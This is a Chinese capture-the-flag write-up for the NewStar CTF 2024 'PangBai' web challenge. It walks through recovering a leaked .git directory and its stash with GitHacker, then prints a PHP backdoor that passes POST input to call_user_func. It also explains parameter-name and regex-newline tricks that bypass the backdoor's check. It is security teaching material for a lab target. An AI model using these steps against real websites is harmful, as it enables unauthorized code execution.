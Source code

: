 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

# PangBai 过家家（2）

题目所给出的提示是文件泄露（其实用 dirsearch 等扫描工具也可以扫描到 .git 目录）。

![任务一](/assets/images/wp/2024/week2/pangbai2_1.png)

使用 GitHacker <https://github.com/WangYihang/GitHacker> 工具从 .git 文件夹中泄露文件到本地。

GitHacker工具可快速使用 pip 安装：

```bash
pip install githacker
```

![使用githacker](/assets/images/wp/2024/week2/pangbai2_2.png)

随后进入 output 文件夹，可以看到恢复的网站源码：

![查看恢复的源码](/assets/images/wp/2024/week2/pangbai2_3.png)

可以使用 git 命令查看当前项目的信息，比如使用 `git log` 查看提交历史

![查看提交历史](/assets/images/wp/2024/week2/pangbai2_4.png)

使用 `git reset HEAD~1` 可以回到上一个 Commit，或者直接使用 VSCode 打开泄露出来的 Git 存储库，能够更可视化地查看提交历史。

但是很遗憾，提交历史中并没有有价值的东西。查看 Stash：

```bash
git stash list
```

![git stash输出信息](/assets/images/wp/2024/week2/pangbai2_5.png)

可以看到 Stash 中含有后门（实际上在 GitHacker 泄漏时就有 stash 的输出信息）

::: warning 注意

如果使用 GitHack 或其它的一些 Git 泄露获取工具，可能并不支持恢复 Stash.

:::

::: tip Stash 的作用

有时会遇到这样的情况，我们正在 dev 分支开发新功能，做到一半时有人过来反馈一个 bug，让马上解决，但是又不方便和现在已经更改的内容混杂在一起，这时就可以使用 `git stash` 命令先把当前进度保存起来。随后便可以即时处理当前要处理的内容。使用 `git stash pop` 则可以将之前存储的内容重新恢复到工作区。

又或者，我们已经在一个分支进行了修改，但发现自己修改错了分支，可以通过 Stash 进行存储，然后到其它分支中释放。

一些常见的 Stash 命令如：

- `git stash`

保存当前工作进度，会把暂存区和工作区的改动保存起来。执行完这个命令后，在运行 `git status` 命令，就会发现当前是一个干净的工作区，没有任何改动。使用 `git stash save ``'一些信息``'` 可以添加一些注释。

- `git stash pop [–index] [stash_id]`

从 Stash 中释放内容，默认为恢复最新的内容到工作区。

:::

使用 `git stash pop` 恢复后门文件到工作区。

![恢复文件](/assets/images/wp/2024/week2/pangbai2_6.png)

发现了后门文件 `BacKd0or.v2d23AOPpDfEW5Ca.php`，访问显示：

![访问后门文件对应的网址](/assets/images/wp/2024/week2/pangbai2_7.png)

由于 `git stash pop` 已经将文件释放了出来，我们可以直接查看后门的源码：

```php
<?php

# Functions to handle HTML output

function print_msg($msg) {
    $content = file_get_contents('index.html');
    $content = preg_replace('/\s*<script.*<\/script>/s', '', $content);
    $content = preg_replace('/ event/', '', $content);
    $content = str_replace('点击此处载入存档', $msg, $content);
    echo $content;
}

function show_backdoor() {
    $content = file_get_contents('index.html');
    $content = str_replace('/assets/index.4f73d116116831ef.js', '/assets/backdoor.5b55c904b31db48d.js', $content);
    echo $content;
}

# Backdoor

if ($_POST['papa'] !== 'TfflxoU0ry7c') {
    show_backdoor();
} else if ($_GET['NewStar_CTF.2024'] !== 'Welcome' && preg_match('/^Welcome$/', $_GET['NewStar_CTF.2024'])) {
    print_msg('PangBai loves you!');
    call_user_func($_POST['func'], $_POST['args']);
} else {
    print_msg('PangBai hates you!');
}
```

后面的考点是 PHP 中关于非法参数名传参问题。我们重点关注下面这个表达式：

```PHP
$_GET['NewStar_CTF.2024'] !== 'Welcome' && preg_match('/^Welcome$/', $_GET['NewStar_CTF.2024'])
```

对于这个表达式，可以使用换行符绕过。`preg_match` 默认为单行模式（此时 `.` 会匹配换行符），但在 PHP 中的该模式下，`$` 除了匹配整个字符串的结尾，还能够匹配字符串最后一个换行符。

::: tip 拓展

如果加 `D` 修饰符，就不匹配换行符：

```Python
preg_match('/^Welcome$/D',"Welcome\n")
```

:::

但如果直接传参 `NewStar_CTF.2024=Welcome%0A` 会发现并没有用。这是由 `NewStar_CTF.2024` 中的特殊字符 `.` 引起的，PHP 默认会将其解析为 `NewStar_CTF_2024`. 在 PHP 7 中，可以使用 `[` 字符的非正确替换漏洞。当传入的参数名中出现 `[` 且之后没有 `]` 时，PHP 会将 `[` 替换为 `_`，但此之后就不会继续替换后面的特殊字符了因此，GET 传参 `NewStar[CTF.2024=Welcome%0a` 即可，随后传入 `call_user_func` 的参数即可。

![获取到flag](/assets/images/wp/2024/week2/pangbai2_8.png)
